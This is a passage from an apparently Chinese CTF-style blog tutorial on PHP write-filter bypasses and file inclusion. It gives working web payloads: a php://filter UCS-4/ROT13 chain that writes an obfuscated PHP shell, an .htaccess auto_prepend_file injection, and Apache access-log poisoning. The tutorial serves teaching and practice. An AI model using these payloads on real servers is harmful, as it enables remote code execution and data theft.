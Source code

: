 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528012033631.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**UCS4/ROT13：**

```php
?content=php://filter/write=convert.iconv.UCS-4LE.UCS-4BE|string.rot13|x?<xx cucvcuc(bsa>?;)/resource=shell1.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528012805901.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
### 第三种情况

```php
<?php
if(isset($_GET['content'])){
    $filename = $_GET['filename'];
    $content = $_GET['content'];
    file_put_contents($filename,$content . "\nxxxxxx");
}else{
    highlight_file(__FILE__);
}
```

这种考点一般的话是禁止有特殊起始符和结束符号的语言，如果不禁，直接写入PHP代码就可以执行了，后面的限制也就没有什么意义了，这类问题往往是需要想办法处理掉杂糅代码的

**.htaccess绕过：**
使用.htaccess文件绕过需要注意该文件是很敏感的，如果有杂糅代码，便会出现错误，导致无法操作，可以使用注释符来将杂糅代码给注释掉

```php
Payload：

?filename=.htaccess&content=php_value auto_prepend_file D:\flag.php%0a%23\
```

这里我本机测试时无法执行.htaccess，借用了一下别人的图 (还是太菜了~~)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528013126219.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 包含日志
## 访问日志

利用条件： 需要知道服务器日志的存储路径，且日志文件可读
很多时候，web服务器会将请求写入到日志文件中，比如说apache；在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log；默认情况下，日志保存路径在 /var/log/apache2/
但如果是直接发起请求，会导致一些符号被编码使得包含无法正确解析，所以我们可以使用burp截包后修改
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528015031532.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
虽然返回400，但是已经写入了访问日志

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052801512184.png#pic_center)

注意：在一些场景中，log的地址是被修改掉的。你可以通过读取相应的配置文件后，再进行包含

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528015211468.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## SSH log
